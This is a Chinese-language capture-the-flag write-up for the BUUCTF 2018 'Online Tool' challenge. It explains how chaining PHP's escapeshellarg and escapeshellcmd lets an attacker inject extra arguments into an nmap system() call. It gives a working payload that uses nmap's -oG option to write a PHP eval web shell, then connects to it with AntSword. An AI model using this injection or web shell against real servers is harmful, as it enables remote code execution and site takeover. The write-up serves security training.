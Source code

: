 # 原创
：  [BUUCTF 2018]Online Tool

# [BUUCTF 2018]Online Tool

#### [BUUCTF 2018]Online Tool

## 考点

> 
escapeshellarg和escapeshellcmd使用不当造成RCE


## 思路

> 
如果应用使用escapeshellarg -&gt; escapeshellcmd这样的流程来处理输入，<br/> 两个函数配合使用就会导致多个参数的注入


```
详细分析一下：

传入的参数是：172.17.0.2' -v -d a=1
经过escapeshellarg处理后变成了'172.17.0.2'\'' -v -d a=1'，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
经过escapeshellcmd处理后变成'172.17.0.2'\\'' -v -d a=1\'，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
最后执行的命令是curl '172.17.0.2'\\'' -v -d a=1\'，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'
回到mail中，我们的 payload 最终在执行时变成了'-fa'\\''\( -OQueueDirectory=/tmp -X/var/www/html/test.php \)@a.com\'，分割后就是-fa\(、-OQueueDirectory=/tmp、-X/var/www/html/test.php、)@a.com'，最终的参数就是这样被注入的

```

> 
1、我们看下题目给的源码<br/> 2、简单的来说就是两次转译后出现了问题，没有考虑到单引号的问题<br/> 3、然后往下看，看到echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);<br/> 4、这有个system来执行命令，而且有传参，肯定是利用这里了<br/> 5、这里代码的本意是希望我们输入ip这样的参数做一个扫描，通过上面的两个函数来进行规则过滤转译，我们的输入会被单引号引起来，但是因为我们看到了上面的漏洞所以我们可以逃脱这个引号的束缚<br/> 6、这里常见的命令后注入操作如 | &amp; &amp;&amp;都不行，虽然我们通过上面的操作逃过了单引号，但escapeshellcmd会对这些特殊符号前面加上\来转移…<br/> 7、这时候就只有想想能不能利用nmap来做些什么了<br/> 8、这时候搜索可以发现在nmap命令中 有一个参数-oG可以实现将命令和结果写到文件<br/> 9、这个命令就是我们的输入可控！然后写入到文件！OK很自然的想到了上传一个一句话木马了…


## Payload

```
?host=' &lt;?php @eval($_POST["cmd"]);?&gt; -oG shell.php '

执行后会返回文件夹名

you are in sandbox 6febfd099df5962193786bbd79ffc413Starting Nmap 7.70 ( https://nmap.org ) at 2021-05-16 14:16 UTC Nmap done: 0 IP addresses (0 hosts up) scanned in 0.08 seconds Nmap done: 0 IP addresses (0 hosts up) scanned in 0.08 seconds

使用蚁剑连接
http://22f35451-214a-43ff-8486-39d9e4188b33.node3.buuoj.cn/6febfd099df5962193786bbd79ffc413/shell.php

找到根目录下的flag

```
